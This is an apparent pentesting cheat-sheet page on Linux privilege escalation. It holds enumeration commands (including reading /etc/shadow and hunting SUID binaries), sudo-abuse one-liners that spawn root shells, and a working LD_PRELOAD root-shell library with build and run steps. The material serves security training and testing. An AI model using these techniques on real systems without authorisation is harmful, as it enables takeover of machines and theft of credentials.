

repository: georgenadejde/CheatShip · page: post-exploitation/linux-privesc/index.html · generator: mkdocs

# Linux Privilege Escalation

Enumeration checklist, SUID, sudo, cron, PATH hijacking, capabilities, NFS, kernel exploits.

---

## Enumeration Checklist

```bash
# system info
hostname; uname -a; cat /proc/version; cat /etc/issue
id; whoami; sudo -l
```
```bash
# users
cat /etc/passwd | cut -d: -f1
cat /etc/shadow   # if readable
history
```
```bash
# network — internal services?
ip a; ip route
netstat -tulpn
ss -tulpn
```
``` bash
# processes
ps aux
ps axjf   # process tree
```
```bash
# SUID / SGID binaries
find / -type f -perm -04000 -ls 2>/dev/null
```
```bash
# world-writable directories
find / -writable -type d 2>/dev/null
```
```bash
# cron jobs
cat /etc/crontab
ls /etc/cron.*
```
```bash
# capabilities
getcap -r / 2>/dev/null
```
```bash
# NFS shares
cat /etc/exports
showmount -e <IP>
```
```bash
# writable dirs in $PATH
find / -writable 2>/dev/null | cut -d/ -f2,3 | grep -v proc | sort -u
```

---

## Sudo Abuse

```bash
# check sudo rights
sudo -l

# look up the binary on GTFOBins with sudo filter:
# https://gtfobins.github.io/#+sudo
```

```bash
# example: sudo find
sudo find . -exec /bin/sh \; -quit
```
```bash
# example: sudo vim
sudo vim -c ':!/bin/sh'
```

### LD_PRELOAD abuse (if env_keep is set in sudoers)

```c
// shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); setuid(0);
    system("/bin/bash");
}
```

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so find
```

---
